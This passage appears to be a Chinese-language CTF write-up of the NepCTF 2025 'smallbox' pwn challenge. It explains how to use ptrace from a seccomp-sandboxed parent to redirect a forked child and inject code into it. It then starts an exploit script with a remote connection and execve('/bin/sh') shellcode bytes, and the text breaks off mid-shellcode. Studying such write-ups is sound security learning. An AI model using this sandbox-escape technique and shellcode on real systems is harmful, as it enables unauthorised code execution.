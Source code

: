 ```yaml
---
title: Nepctf-2025-pwn
tags:
    - 中等难度
    - pwn
categories:
    - 比赛记录
cover: /img/治不开心药.png
---
```

# Nepctf--pwn复现

## time

## smallbox

### 查看沙箱

题目名字和描述都很明显，拖下来首先就是看一下沙箱。发现只允许一个syscall，ptrace。之前也没遇到过这类题目，先去了解了一下。

![image-20250728093312153](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250728093312153.png)

### ida分析

先用mmap分配了一块空间，并给了可读可写可执行的权限。然后fork，然后read，然后上沙箱。最后会调用shellcode。

![image-20250728093914695](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250728093914695.png)

### 思路

1.沙箱禁用了其他函数，只能使用ptrace 操作。可以获取子进程pid，所以可以操作子进程。 因为沙箱再后面install ，但是子进程出来一直在循环，所以还没装沙箱。

2.利用ptrace修改子进程rip，使其跳过沙箱。同时通过ptrace 往子进程的空间中写入shellcode ，最后让子进程跳转到这，因为没有沙箱，所以子进程就可以getshell。

### exp

当时写的时候，没有通过ptrace,去往里写，以为父进程中读入的shellcode，子进程也有。反复尝试了很久，都失败了。还以为是attach 失败，又或者是改rip错了。后面意识到，一个点，父进程中输入的shellcdoe ，子进程不应该有才对，才反应过了同过ptrace往里写。也是学到了。

之前看到fork 只能联想到爆破cananry，现在知道可以通过ptrace控制子进程了。

```python
from esy import *
context.log_level='debug'
context.arch="amd64"
#io,elf=loadfile("./smallbox","",0)
#context.terminal=['tmux','splitw','-h','-l','66%']
host="nepctf31-oted-rgpe-shrp-juf9qwjd6957.nepctf.com"
port=443
io= remote(host, port, ssl=True, sni=host)
execve_shellcode=(
b'\x48\xC7\xC0\x3b\x00\x00\x00' # mov rax,0x3b
b'\x48\xBF\x19\xE0\x0D\xDC\xEA\x0D\x00\x00' # mov rdi,0xdeadc0de019
b'\x48\x31\xf6'   # xor rsi,rsi
b'\x48\x31\xD2'   # xor rdx,rdx
b'\x0f\x05'       # syscall
b'/bin/sh\x00'
)

shellcode=(
b'\x44\x8B\x7D\xF4' # mov r15d,[rbp-0xc]
b'\x44\x89\xFe'     # mov edi,r15d
```